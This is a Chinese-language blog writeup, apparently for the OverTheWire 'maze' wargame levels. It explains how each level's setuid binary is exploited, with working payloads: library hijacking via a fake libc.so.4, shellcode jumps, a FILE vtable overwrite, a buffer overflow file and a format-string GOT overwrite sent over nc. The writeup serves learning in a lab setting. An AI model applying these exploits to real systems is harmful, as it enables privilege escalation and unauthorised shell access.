 ```yaml
---
title: maze
author: rk700
layout: post
categories:
  - writeup
tags:
  - OverTheWire
  - exploit
---
```

*  **maze0**  
race condition，以前做过，于是懒得再弄了

*  **maze1**  
`ldd`检查发现会加载当前目录下的`libc.so.4`。于是我们写一个文件 


{% highlight c %}
int __libc_start_main() {
    int fd = open("/etc/maze_pass/maze2", 0);
    char buf[64];
    int numRead = read(fd, buf, sizeof buf);
    buf[numRead] = 0;
    write(1, buf, numRead);
    return 0;
}
{% endhighlight %}
    

这里的输入输出没有用libc里的fopen，printf等，因为没有加载正确的libc.so
    
将该文件编译成动态库：
    
<pre>$ gcc --shared -fPIC 1.c -o libc.so.4</pre>
    
再运行程序，就会调用我们提供的start_main

*   **maze2**  
把payload提供为argv即可。调用时会执行我们提供的argv[1]的内容；由于最多只能复制8个字符，所以把shellcode放环境变量，然后跳到那里： 

{% highlight nasm %}
BITS 32
mov eax, 0xffffd8d8
jmp eax
{% endhighlight %}
        
正好7个字符，然后执行
        
<pre>$ /maze/maze2 `perl -e 'print "\xb8\xd8\xd8\xff\xff\xff\xe0"'`</pre>
        
*   **maze3**  
    只有个_start，估计是纯手写的汇编。 
    关于linux下main函数的启动，<http://tldp.org/LDP/LGNET/84/hawk.html>有一篇文章。于是可以知道，进入\_start之后，栈顶由高到底依次为：argc, &argv[0], &argv[1], &argv[2],&#8230;。而\_start一般来说会执行 
            
{% highlight objdump %}
 080482d0 <_start>:
 80482d0:       31 ed                   xor    %ebp,%ebp
 80482d2:       5e                      pop    %esi
 80482d3:       89 e1                   mov    %esp,%ecx
...
 80482e5:       51                      push   %ecx
 80482e6:       56                      push   %esi
{% endhighlight %}
            

这里就把argv和argv推到栈上了。

对于我们的程序，首先取出argc,看减1后是否为0，如果是的话退出。

然后调用了mprotect，是修改内存属性，7的话应该是rwx，于是我们接下来可以修改指令部分了。接着是把44bytes指令取出(ecx=0x2c)，与0x12345678做XOR，再保存回原来的地方(edi=edi=d1)，接着就执行这一部分的内容。全部XOR之后，将要执行的代码变成：
            

{% highlight objdump %}
=> 0x80480cb <d1>:      pop    %eax
   0x80480cc <d1+1>:    cmpl   $0x1337c0de,(%eax)
   0x80480d2 <d1+7>:    jne    0x80480ed <d1+34>
   0x80480d4 <d1+9>:    xor    %eax,%eax
   0x80480d6 <d1+11>:   push   %eax
   0x80480d7 <d1+12>:   push   $0x68732f2f
   0x80480dc <d1+17>:   push   $0x6e69622f
   0x80480e1 <d1+22>:   mov    %esp,%ebx
   0x80480e3 <d1+24>:   push   %eax
   0x80480e4 <d1+25>:   push   %ebx
   0x80480e5 <d1+26>:   mov    %esp,%ecx
   0x80480e7 <d1+28>:   xor    %edx,%edx
   0x80480e9 <d1+30>:   mov    $0xb,%al
   0x80480eb <d1+32>:   int    $0x80
   0x80480ed <d1+34>:   mov    $0x1,%eax
   0x80480f2 <d1+39>:   xor    %ebx,%ebx
   0x80480f4 <d1+41>:   inc    %ebx
   0x80480f5 <d1+42>:   int    $0x80
{% endhighlight %}
            
由于之前有pop了一次，所以这里是把argv[1]和0x1337c0de比较，相等的话就有shell了。于是执行
            
<pre>$ /maze/maze3 `perl -e 'print "\xde\xc0\x37\x13"'`</pre>
            
多说一句，1337这个数经常见到，因为是<http://en.wikipedia.org/wiki/Leet>
*   **maze4**  
这里会检查提供的文件，如果符合要求则执行。具体检查如下： 


{% highlight c %}
...
        Elf32_Ehdr ehdr;
        Elf32_Phdr phdr;
        struct stat st;
...

        /* read Elf-header */
        read(fd,&ehdr,sizeof(Elf32_Ehdr));

        /* read Program-header */
        lseek(fd,ehdr.e_phoff,SEEK_SET);
        read(fd,&phdr,sizeof(Elf32_Phdr));

        /* check */
        if(phdr.p_paddr == (ehdr.e_ident[EI_OSABI]*ehdr.e_ident[EI_ABIVERSION]) &&
           st.st_size < 120) {
                printf("valid file, executing\n");
                execv(argv[1],NULL);
        }
{% endhighlight %}
                
而如果提供ELF文件，那么p_paddr在0x08040000之后，但两个bytes相乘不太可能等于那么大的数。

但如果是脚本文件，就不用那么费事了。 

<pre>$ perl -e 'print "#!/bin/sh\ncat maze5\n#" . "-"x7 . "\x14\x00\x00\x00" . "\xb8\x2e\x00\x00"' > overthewire/maze/maze4.sh</pre>
                
两个相乘的bytes在0x7、0x8处，是s和h。program header在0x1c，我们把那里写成0x14。这样再找p_paddr就会在0x14+0xc=0x20，那里写成乘积0x2eb8。这样就符合要求了。
                
为了省事儿，我把密码文件链接到当前目录下面了。而且用sh而不是bash，因为setuid的问题。
                
*   **maze5**  
检查用户名和密码，都是8bytes，而且password[i]=&#8217;printlol&#8217;[i]-(username[i]-65)-2*i。这样我们如果提交username为A?=;9753，那么-2i被抵消，密码还是printlol

*   **maze6**  
这里可以覆盖FILE指针地址，也就是说可以使用我们提供的FILE结构。其定义在文件libio.h中，名字是\_IO\_FILE。 

<http://www.ouah.org/fsp-overflows.txt>有一篇参考文章。
                    
fprintf最终会调用vfprintf。参考FILE的定义，开始处有一些指针，我们把那里都写成jump table的地址。然后
                    
{% highlight objdump %}
...
   0xf7e6467d <vfprintf+29>:    mov    0x8(%ebp),%esi
...
   0xf7e64798 <vfprintf+312>:   movsbl 0x46(%esi),%eax
   0xf7e6479c <vfprintf+316>:   sub    0xc(%ebp),%edi
   0xf7e6479f <vfprintf+319>:   mov    0x94(%esi,%eax,1),%eax
...
   0xf7e647ba <vfprintf+346>:   call   *0x1c(%eax)
{% endhighlight %}
                    
可以看到，FILE的地址放在了esi,esi+0x46处的signed char被取出。参考定义这个是signed char \_vtable\_offset；然后此offset加上0x94得到table的地址；最后0x1c加table地址被调用。
                    
于是，我们把第0x46处写成8,接下来作为jump table的内容，存的全是SHELLCODE的地址。 
                    
<pre>$ ./maze6 1 `perl -e 'print "\x2a\xf2\xd5\xd5"x17 . "\x2e\x2e\x22\x2e" . "\x7e\xf3\xd5\xd5"x22 . "\xf7\xf6\xd5\xd5"x24 . "\x96\xf2\xd5\xd5"'`</pre>
                    
*   **maze7**  
首先读取起始的0x34=52个bytes，并从中获取参数，传给函数print_shdrs；然后在这个函数中的`read(fd,&v5,nbytes)`处可以向下覆盖至返回地址，由于这次的读文件还需要保持堆上的地址，所以我们再放72bytes在文件的后面。 

要注意的是，向下覆盖时会重写ptr和buf的值。为了后面的free不出错，我们用gdb获得这两个堆上的地址，然后放到文件相应的地方；此外，在printf中会打印一个字符串，我们最好保证地址不要越界，也就是v5不要超过ptr的长度。
                        
<pre>$ perl -e 'print "A"x32 . "\x34\x00\x00\x00" . "A"x10 . "\x48\x00" . "\x01\x00" . "\x00\x00" . "\x00"x20 . "\x10\x00\x00\x00" . "\x00"x16 . "\x38\xa0\x04\x08" . "AAAA" . "\x08\xa0\x04\x08" . "\x02\x00\x00\x00" . "A"x8 . "ebp-" . "\x05\xd9\xff\xff"' > f
$ /maze/maze7 f</pre>
                        
*   **maze8**  
会监听1337端口。另外，snprintf存在format string。我们选择修改send的got地址，这需要同时联两个到ssh上面，一个把shellcode放到环境变量并启动maze8，另一个发送我们构造的内容： 
<pre>$ perl -e 'print "\x78\x9d\x04\x08" . "\x79\x9d\x04\x08" . "\x7a\x9d\x04\x08" . "\x7b\x9d\x04\x08" . "%245x%11\$hhn" . "%212x%12\$hhn" . "%38x%13\$hhn" . "%14\$hhn"' | nc 127.0.0.1 1337</pre>
                            
这样maze8那边就得到shell
